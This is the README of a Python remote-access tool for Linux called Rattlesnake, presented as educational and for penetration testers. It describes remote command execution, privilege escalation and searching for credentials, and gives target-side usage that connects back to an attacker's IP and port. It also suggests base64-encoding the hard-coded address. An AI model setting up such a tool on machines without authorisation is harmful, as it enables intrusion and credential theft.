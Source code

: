 # Rattlesnake  
A linux remote administration tool created in Python, made for **educational** purposes only.  
 
## Features:  

### Command execution  
![RCE Demo](https://github.com/Cinnamon1212/rattlesnake/blob/main/image/RCEDemo.png)  

### Priv esc  
![PrivEsc Demo](https://github.com/Cinnamon1212/rattlesnake/blob/main/image/PrivEsc.png)  

Enumeration:  
* Gather system info  
* Gather permission info  
* Gather network info  
* Search for condifential or vulnerable files  
* Search for usernames and passwords  

File upload
File download

### Requirements:
* python3
``` sudo apt install python3 ```
* Linux distro (On both attacker and target, see note)
* termcolor (For controller)
``` pip3 install termcolor ```

### Usage:  
Attack machine:  
```
python3 controller.py
> Option 1
> Enter listener port
```
Target machine:
```
python3 rattlesnake.py (attack ip) (attack port)
```
Alternatively, you can hard code the IP and port (See rattlesnake.py) and base64 encode it (See calc.py and b64example.py)  

## DISCLAIMER: THIS TOOL WAS CREATED FOR PENETRATION TESTERS, MALWARE ANALYSISTS AND CYBER SEC PROFESSIONALS. THIS TOOL IS ***NOT*** DESIGNED FOR MALICIOUS PURPOSES.  
### The creator is ***not*** responsible for any misuses  
Note: This tool has only been tested on Debian and Ubuntu(20.04 LTS) 
